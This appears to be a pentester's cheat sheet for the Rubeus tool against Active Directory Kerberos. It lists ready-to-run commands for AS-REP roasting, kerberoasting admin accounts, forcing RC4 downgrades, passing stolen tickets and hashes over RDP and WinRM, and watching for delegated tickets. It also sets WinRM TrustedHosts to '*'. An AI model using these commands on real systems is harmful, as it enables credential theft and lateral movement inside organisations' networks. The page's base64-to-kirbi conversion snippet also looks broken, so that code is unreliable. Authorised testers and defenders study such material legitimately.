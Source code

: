 ```yaml
---
tags:
  - tool
  - active_directory
  - kerberos
---
```

# Rubeus

C# toolset for raw Kerberos interaction and abuses - [Rubeus](https://github.com/GhostPack/Rubeus)

## Capabilities

```powershell
# AS-REP roast the current user
.\Rubeus.exe asreproast /nowrap

# Kerberoast the current user
.\Rubeus.exe kerberoast /nowrap

# Check encryption and password last set date for kerberoastable users
.\Rubeus.exe kerberoast /stats

# Request tickets for high-value targets
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap

# Kerberoast an account
.\Rubeus.exe kerberoast /user:$USER /nowrap
.\Rubeus.exe kerberoast /domain:$DOMAIN /dc:$DC /user:$USER /nowrap

# Downgrade request to RC4 encryption (only works against Windows Server 2016 and earlier)
.\Rubeus.exe kerberoast /tgtdeleg

# Pass the ticket via RDP
.\Rubeus.exe createnetonly /program:powershell.exe /show
# In new window
.\Rubeus.exe asktgt /user:$USER /rc4:$HASH /domain:$FQDN /ptt
mstsc.exe /restrictedAdmin
# This will show credentials for the current logged-in user, but it does not matter

# Pass the ticket via WinRM
.\Rubeus.exe asktgt /user:$USER /rc4:$HASH /nowrap
.\Rubeus.exe createnetonly /program:powershell.exe /show
# In new window
.\Rubeus.exe ptt /ticket:$TICKET_BLOB
Enter-PSSession $FQDN -Authentication Negotiate
# NOTE: Kerberos double hop problem occurs in this case

# Pass a kirbi ticket that was generated
.\Rubeus.exe asktgs /ticket:$TICKET_FILE /service:cifs/$TARGET_FQDN /dc:$DC_FQDN /ptt

# Monitor for incoming tickets as a user with unconstrained delegation
.\Rubeus.exe monitor /interval:5 /nowrap
.\Rubeus.exe monitor /interval:5 /nowrap /runfor:60
```

**Note:** `/nowrap` prevents any base64 ticket blobs from being column wrapped for any function, making for easier pasting.

In the case of a `TrustedHosts` error, we can use the following command.

```powershell
Set-Item WSMan:localhost\client\trustedhosts -value * -Force
```

If we are not admins, we can use explicit credentials with `-Credential` or `Invoke-Command`

```powershell
# Convert base64 to .kirbi
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($base64RubeusTGT))

# Convert .kirbi to .ccache
ticketConverter.py Administrator.kirbi Administrator.ccache
```
